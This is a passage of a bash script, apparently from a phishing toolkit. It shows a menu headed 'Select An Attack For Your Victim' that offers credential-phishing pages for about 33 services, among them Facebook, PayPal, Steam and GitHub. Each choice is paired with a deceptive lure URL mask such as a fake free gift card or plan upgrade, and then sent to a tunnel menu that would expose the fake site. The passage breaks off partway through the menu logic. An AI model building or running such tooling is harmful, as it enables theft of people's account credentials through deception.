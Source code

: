 ## Menu
main_menu() {
	{ clear; banner; echo; }
	cat <<- EOF
		${RED}[${WHITE}::${RED}]${ORANGE} Select An Attack For Your Victim ${RED}[${WHITE}::${RED}]${ORANGE}

		${RED}[${WHITE}01${RED}]${ORANGE} Facebook      ${RED}[${WHITE}11${RED}]${ORANGE} Twitch       ${RED}[${WHITE}21${RED}]${ORANGE} DeviantArt
		${RED}[${WHITE}02${RED}]${ORANGE} Instagram     ${RED}[${WHITE}12${RED}]${ORANGE} Pinterest    ${RED}[${WHITE}22${RED}]${ORANGE} Badoo
		${RED}[${WHITE}03${RED}]${ORANGE} Google        ${RED}[${WHITE}13${RED}]${ORANGE} Snapchat     ${RED}[${WHITE}23${RED}]${ORANGE} Origin
		${RED}[${WHITE}04${RED}]${ORANGE} Microsoft     ${RED}[${WHITE}14${RED}]${ORANGE} Linkedin     ${RED}[${WHITE}24${RED}]${ORANGE} DropBox	
		${RED}[${WHITE}05${RED}]${ORANGE} Netflix       ${RED}[${WHITE}15${RED}]${ORANGE} Ebay         ${RED}[${WHITE}25${RED}]${ORANGE} Yahoo		
		${RED}[${WHITE}06${RED}]${ORANGE} Paypal        ${RED}[${WHITE}16${RED}]${ORANGE} Quora        ${RED}[${WHITE}26${RED}]${ORANGE} Wordpress
		${RED}[${WHITE}07${RED}]${ORANGE} Steam         ${RED}[${WHITE}17${RED}]${ORANGE} Protonmail   ${RED}[${WHITE}27${RED}]${ORANGE} Yandex			
		${RED}[${WHITE}08${RED}]${ORANGE} Twitter       ${RED}[${WHITE}18${RED}]${ORANGE} Spotify      ${RED}[${WHITE}28${RED}]${ORANGE} StackoverFlow
		${RED}[${WHITE}09${RED}]${ORANGE} Playstation   ${RED}[${WHITE}19${RED}]${ORANGE} Reddit       ${RED}[${WHITE}29${RED}]${ORANGE} Vk
		${RED}[${WHITE}10${RED}]${ORANGE} Tiktok        ${RED}[${WHITE}20${RED}]${ORANGE} Adobe        ${RED}[${WHITE}30${RED}]${ORANGE} XBOX
		${RED}[${WHITE}31${RED}]${ORANGE} Mediafire     ${RED}[${WHITE}32${RED}]${ORANGE} Gitlab       ${RED}[${WHITE}33${RED}]${ORANGE} Github

		${RED}[${WHITE}99${RED}]${ORANGE} About         ${RED}[${WHITE}00${RED}]${ORANGE} Exit

	EOF
	
	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	if [[ "$REPLY" == 1 || "$REPLY" == 01 ]]; then
		site_facebook
	elif [[ "$REPLY" == 2 || "$REPLY" == 02 ]]; then
		site_instagram
	elif [[ "$REPLY" == 3 || "$REPLY" == 03 ]]; then
		site_gmail
	elif [[ "$REPLY" == 4 || "$REPLY" == 04 ]]; then
		website="microsoft"
		mask='http://unlimited-onedrive-space-for-free'
		tunnel_menu
	elif [[ "$REPLY" == 5 || "$REPLY" == 05 ]]; then
		website="netflix"
		mask='http://upgrade-your-netflix-plan-free'
		tunnel_menu
	elif [[ "$REPLY" == 6 || "$REPLY" == 06 ]]; then
		website="paypal"
		mask='http://get-500-usd-free-to-your-acount'
		tunnel_menu
	elif [[ "$REPLY" == 7 || "$REPLY" == 07 ]]; then
		website="steam"
		mask='http://steam-500-usd-gift-card-free'
		tunnel_menu
	elif [[ "$REPLY" == 8 || "$REPLY" == 08 ]]; then
		website="twitter"
		mask='http://get-blue-badge-on-twitter-free'
		tunnel_menu
	elif [[ "$REPLY" == 9 || "$REPLY" == 09 ]]; then
		website="playstation"
		mask='http://playstation-500-usd-gift-card-free'